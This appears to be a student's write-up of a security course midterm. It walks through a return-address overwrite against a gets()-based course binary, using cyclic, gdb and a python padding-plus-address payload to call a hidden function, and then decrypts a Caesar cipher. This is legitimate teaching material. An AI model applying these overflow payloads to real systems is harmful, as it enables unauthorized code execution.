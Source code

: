 # Midterm

## Problem 1
Problem 1 is that we get a binary file and we need to exploit the binary to get some secret key.

### Solution
Solved on Fedora 36 with kernel 5.19.7-200.fc36.x86_64 and gcc 12.2.1 20220819 (Red Hat 12.2.1-1).

Since we are supposed to know nothing about the binary file. We can use ```strings assignment``` and we can check if there are any unsafe functions in use, and we can also check if there are any interesting strings in the binary file.
As a matter of fact we can see that we are using ```gets``` to get input from the user, that function can be exploited. Small sidenote we can see the encoded string also.

Now we need to find out how big the buffer is that ```gets``` is using, to do that we can use the helpful command called ```cyclic``` this command creates a string that is a uniqe pattern at every space. We can try with 500 characters and then we check what the RBP is. For example if we use ```cyclic -n 4 500``` and input that into the binary file and we check the base pointer and we can see its ```0x63616170``` (we only take the first 4 bytes since n=4) and then we run ```cyclic -n 4 -l 0x63616170``` and we get ```260```.

Also to confirm that the buffer is something like 260 bytes we can check the stack with ```gdb``` and we can confirm that the bufferoverflow happens around 260 bytes since we can see that the stack is overflowing by using the command ```x/100x $rsp-200```.

After we overwrite the base pointer the next in line is the instruction pointer. So some trial and error might be needed. 

After some trial and error i have found out that we need 256 bytes to get to the base pointer and then 8 more to fully overwrite the base pointer, the next 8 bytes are the instruction pointer

Now we need to find the address of the print_secret_message function. We can do that by using ```gdb```
as shown below

```
(gdb) disass print_secret_message 
Dump of assembler code for function print_secret_message:
   0x000000000040123e <+0>:	push   %rbp
   0x000000000040123f <+1>:	mov    %rsp,%rbp
   0x0000000000401242 <+4>:	mov    0x2e0f(%rip),%rax        # 0x404058 <secret_message>
   0x0000000000401249 <+11>:	mov    %rax,%rdi
   0x000000000040124c <+14>:	call   0x401030 <puts@plt>
   0x0000000000401251 <+19>:	mov    $0x0,%edi
   0x0000000000401256 <+24>:	call   0x401080 <exit@plt>
End of assembler dump.
(gdb) quit
```
Here above we can see that the adress is ```0x000000000040123e```. Now we need to create a payload that fills the buffer and adds this address to the end of the payload. We can do that with the following python snippet
```
python3 -c "print('\x41'*256 + '\x42'*8 + '\x3e\x12\x40\x00\x00\x00\x00')" > payload 
```
Now if we try to run program within gdb with the payload we can see that we get the secret message.
```
(gdb) r < payload
Starting program: /home/star/SCHOOL/computer_security/midterm/assignment1 < payload
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
Enter the secret passphrase that will decrypt the secret message: OLZLJYLATLZZHNLPZHNYLLHISLULZZLZ
[Inferior 1 (process 59339) exited normally]
(gdb) 
```
Running the program without gdb we can see that we get the same result.
```
./assignment1 < payload                                                        
Enter the secret passphrase that will decrypt the secret message: OLZLJYLATLZZHNLPZHNYLLHISLULZZLZ
```
The secret message is ```OLZLJYLATLZZHNLPZHNYLLHISLULZZLZ```

## Problem 2
Now that we have the secret message we need to decrypt it, All we know is that this is a ceaser cipher. Our decrypting program should be able to pick out the correct solutions from many. So essentialy it needs to be able to decrypt all ceasar cipers and then pick out the correct one.

### Solution
The script decrypt.py is a script that can decrypt ceasar ciphers, you might need to fidget with the constants for the scoring system. The script is not perfect but it can decrypt the secret message.
Just run the script with ```python3 decrypt.py``` and it will print out the decrypted message, that is ```HESECRETMESSAGEISAGREEABLENESSES``` and the key is 19 to the left.
